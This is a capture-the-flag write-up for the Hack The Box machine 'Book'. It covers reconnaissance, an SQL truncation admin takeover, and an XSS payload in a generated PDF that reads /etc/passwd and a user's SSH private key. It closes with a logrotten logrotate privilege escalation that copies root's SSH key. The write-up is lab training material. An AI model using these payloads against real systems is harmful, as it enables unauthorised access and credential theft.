# Recon
## Nmap
```console
kali@kali:~$ nmap -sC -sV 10.10.10.176
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-11 10:38 EDT
Nmap scan report for 10.10.10.176
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.63 seconds
```

We just have `SSH port 22` and `HTTP port 80` open.   
Let's start gobuster and visit the website.

## gobuster
```console
kali@kali:~$ gobuster dir -u 10.10.10.176 -w /usr/share/wordlists/dirb/common.txt -t 100
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.176
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/11 10:44:06 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.hta (Status: 403)
/admin (Status: 301)
/docs (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/server-status (Status: 403)
===============================================================
2020/07/11 10:44:42 Finished
===============================================================
```

gobuster found an important directory `/admin`

## port 80
The homepage has a SignIn and SignUp option


there is a separate admin sign in on `/admin`


## After signup
I created a new account and signed in, there are a lot of functionalities and hence there are a lot of rabbit holes too   
I am not going to go into the rabbit holes to keep the writeup short and precise   


From the Contact Us page I got the admin email ID --> `admin@book.htb`



There is a file upload functionality where I was even able to upload php files, so I tried a lot of things with it but couldn't get anywhere



# SQL Truncation Attack
## User Exists Alert
If we try to create an account with the admin email ID it gives a `User Exists` alert   


## About the Attack
After a lot of unsuccessful attack trials, I found a very useful hint on HTB forum, it said   
`Why not create a password for admin rather than guessing it`   
after reading this hint, I tried SQL Truncation Attack in the SignUp page and it worked   

I have seen this attack vector before in `Natas Level 27`, which is an `OverTheWire` wargame   
> [https://overthewire.org/wargames/natas/](https://overthewire.org/wargames/natas/)   

Here is a great video writeup by `John Hammond` which also explains SQL Truncation Attack in detail   
> [https://www.youtube.com/watch?v=Y7WXxmWKfxs](https://www.youtube.com/watch?v=Y7WXxmWKfxs)   

The following blog also a good source to read about this attack vector    
> [https://resources.infosecinstitute.com/sql-truncation-attack/](https://resources.infosecinstitute.com/sql-truncation-attack/)

In the source code of the SignUp page I found this javascript which alerts the user if email field is left empty   





As the email field can only store upto 20 characters, we can give the input with admin email then a few spaces then anything gibberish   
```
admin@book.htb       lkalsdjfalkf
```
SQL will truncate the input and only store the first 20 characters, which is just the admin email and a few spaces at the end   
while querying anything, SQL just ignores the spaces at the end and we can login as admin   

## Burp Suite
As the email form field checks if the input is really an email ID, it won't allow us to put spaces in the email input, so we need to use Burp   
lets intercept the post request for sign up and change the email field   



we don't get a user exists alert, instead we get a `302 redirect` to index.php, which means the attack was successful   



# XSS in Dynamically Generated PDF
## Admin Panel
we can now login to both the admin as well as the user page using the admin email ID and the password we created   


the only interesting functionality in the admin panel is the collections tab   



the Users PDF contains the Name and Email of all the accounts  



and the Collections PDF contains the Title, Author and Link to all the books on the platform  

 

## XSS
We have a book upload functionality in the user panel   
lets upload something and then check the contents of the Collections PDF   



we can see that our submitted book appears here with the Title, Author and a Link to the book itself   


The content of the Collections PDF changes with the books available on the platform this shows that its a `dynamically generated pdf`   
We clearly have a `Cross Site Scripting (XSS)` vulnerability because our input is directly reflected in the dynamically generated pdf

## Exploit
I googled for `dynamically generated pdf xss` and found this great blog by `Noob Ninja`    
> [https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)   

He talks about leveraging XSS in dynamically generated PDFs to read local files using JavaScript   
We can use the payload mentioned in the blog in the Title and the Author field while uploading a book as both of them are reflected in the PDF
```js
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```



and we get the `/etc/passwd` file



from the /etc/passwd file we know there is a user named `reader`, we can check if it has a RSA private key   
so just change /etc/passwd in the payload to `/home/reader/.ssh/id_rsa`   




we got the RSA private key for reader but the characters at the end of the lines are cut in the pdf   
I was not able to select all the character in the default PDF viewer so I opened the PDF in firefox and used `Ctrl+A` to select everything

# SSH as reader
Now that we have the id_rsa file for reader, we can SSH and get the user.txt file
```console
kali@kali:~$ ssh -i id_rsa reader@10.10.10.176
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul 11 17:40:26 UTC 2020

  System load:  0.36               Processes:            143
  Usage of /:   26.6% of 19.56GB   Users logged in:      0
  Memory usage: 29%                IP address for ens33: 10.10.10.176
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

114 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Jul 11 17:30:11 2020 from 10.10.14.12
reader@book:~$ cat user.txt
51c1d4b5197fa30e3e5d37f8778f95bc
```

# PrivEsc
## backups
There is a backups directory in reader's home which contains http access log files
```console
reader@book:~$ ls
backups  lse.sh  user.txt
reader@book:~$ ls -al backups/
total 12
drwxr-xr-x 2 reader reader 4096 Jul 11 14:47 .
drwxr-xr-x 7 reader reader 4096 Jul 11 17:57 ..
-rw-r--r-- 1 reader reader    0 Jul 11 14:47 access.log
-rw-r--r-- 1 reader reader   91 Jul 11 14:47 access.log.1
reader@book:~$ cat backups/access.log
reader@book:~$ cat backups/access.log.1 
192.168.0.104 - - [29/Jun/2019:14:39:55 +0000] "GET /robbie03 HTTP/1.1" 404 446 "-" "curl"
```

## pspy
After a lot of enumeration, I didn't found anything else, so I used pspy to view `root processes`   
we can use scp to transfer the pspy binary  
`scp -i id_rsa /opt/pspy/pspy64 reader@10.10.10.176:~/pspy64`

```console
reader@book:~$ ./pspy
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done                                                                                                                                                                                        
2020/07/11 18:05:39 CMD: UID=111  PID=975    | /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld.pid
2020/07/11 18:05:39 CMD: UID=0    PID=962    | /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
2020/07/11 18:05:39 CMD: UID=0    PID=942    | /usr/sbin/sshd -D
2020/07/11 18:05:39 CMD: UID=0    PID=928    | /bin/sh /root/reset.sh
2020/07/11 18:05:39 CMD: UID=0    PID=926    | /bin/sh -c /root/reset.sh
2020/07/11 18:05:39 CMD: UID=0    PID=912    | /usr/sbin/CRON -f
2020/07/11 18:05:39 CMD: UID=0    PID=904    | /sbin/agetty -o -p -- \u --noclear tty1 linux 
...
...
2020/07/11 18:04:12 CMD: UID=0    PID=1065   | /usr/lib/policykit-1/polkitd --no-debug
2020/07/11 18:04:12 CMD: UID=0    PID=10     |
2020/07/11 18:04:12 CMD: UID=0    PID=1      | /sbin/init auto automatic-ubiquity noprompt
2020/07/11 18:04:14 CMD: UID=0    PID=51428  | sleep 5
2020/07/11 18:04:18 CMD: UID=1000 PID=51429  | /usr/sbin/apache2 -k start
2020/07/11 18:04:19 CMD: UID=0    PID=51431  | /usr/sbin/logrotate -f /root/log.cfg
2020/07/11 18:04:19 CMD: UID=0    PID=51430  | /bin/sh /root/log.sh
2020/07/11 18:04:19 CMD: UID=0    PID=51432  | sleep 5
```

pspy spits out lot of root processes, one of the root process uses `logrotate`   
`/usr/sbin/logrotate -f /root/log.cfg`   

## Logrotten
I searched for `logrotate privesc` and got a github repo named `logrotten` which explains the complete process to privesc using logrotate   
> [https://github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten)

first of all lets transfer the `logrotten.c` file using scp   
`scp -i id_rsa ./logrotten/logrotten.c reader@10.10.10.176:~/logrotten.c`   

now we need to compile the c file and in the payload we can just copy root's id_rsa file to /tmp   
```console
reader@book:~$ gcc -o logrotten logrotten.c
reader@book:~$ echo "cp /root/.ssh/id_rsa /tmp; chmod +r /tmp/id_rsa" > payload
reader@book:~$ cat payload 
cp /root/.ssh/id_rsa /tmp; chmod +r /tmp/id_rsa
```

during the exploit we need to change the content of log file `backups/access.log` for the exploit to take place   
so we will login as reader in another SSH session and change the content of log file after running the exploit    
```
reader@book:~$ ./logrotten -p ./payload backups/access.log
Waiting for rotating backups/access.log...
```

now echo something in the log file to change its content
```
reader@book:~$ echo "" > backups/access.log
```

and the exploit is successfully completed
```
reader@book:~$ ./logrotten -p ./payload backups/access.log
Waiting for rotating backups/access.log...
Renamed backups with backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
reader@book:~$ ls -al /tmp/id_rsa
-rw-r--r-- 1 root root 1679 Jul 11 18:54 /tmp/id_rsa
```



## SSH as root
Now that we have root's SSH private key, we can SSH as root
```console
kali@kali:~$ ssh -i root.key root@10.10.10.176
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul 11 18:35:18 UTC 2020

  System load:  0.0                Processes:            151
  Usage of /:   26.6% of 19.56GB   Users logged in:      1
  Memory usage: 30%                IP address for ens33: 10.10.10.176
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

114 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Jul 11 18:35:02 2020 from ::1
root@book:~# id
uid=0(root) gid=0(root) groups=0(root)
root@book:~# cat root.txt 
84da92adf998a1c7231297f70dd89714
```


